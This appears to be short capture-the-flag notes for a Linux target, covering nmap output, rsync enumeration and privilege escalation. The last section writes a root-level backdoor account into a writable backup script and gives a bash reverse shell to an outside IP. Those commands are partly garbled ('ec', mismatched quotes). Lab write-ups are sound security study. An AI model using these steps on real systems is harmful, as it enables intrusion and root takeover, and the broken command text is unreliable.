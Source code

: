 # KEY TAKE AWAYS

* rsync enumeration
* cryptography
* sticky bit priv esc

# NMAP

```
PORT    STATE SERVICE REASON  VERSION
21/tcp  open  ftp     syn-ack vsftpd 3.0.5
22/tcp  open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 c1:4d:65:15:d2:ee:59:ef:09:be:45:11:33:ca:9f:af (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBC006mm4BiGMW0LwEj6SJJ9adPWKKdaVGKqtckMnkDFv2oDpn+mA6s/xHJYD+k/wC+CsxsZu+Z25BntarwhGQas=
|   256 4f:d1:72:b2:97:72:b8:6a:e4:39:25:e0:05:18:4e:27 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIVkmYKsReUPCRf86fAJoytqWUfPzhIL9c9udtwzOJL0
80/tcp  open  http    syn-ack Apache httpd 2.4.52 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Login
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
873/tcp open  rsync   syn-ack (protocol version 31)
```

# RSYNC ENUM

From HackTricks
```
nc -vn 127.0.0.1 873
(UNKNOWN) [127.0.0.1] 873 (rsync) open
@RSYNCD: 31.0        <--- You receive this banner with the version from the server
@RSYNCD: 31.0        <--- Then you send the same info
#list                <--- Then you ask the sever to list
```

rsync -av --list-only rsync://$IP/httpd 

# Privilege Escalation

ec“test:$1$GmIHt4zO$7k7JXhnl4OOpYZ5cwUHkg1:0:0:root:/root:/bin/bash”’ >> /usr/local/bin/backup.sh

/usr/local/bin/backup.sh

/bin/bash -i >& /dev/tcp/10.8.2.42/9001 0>&1
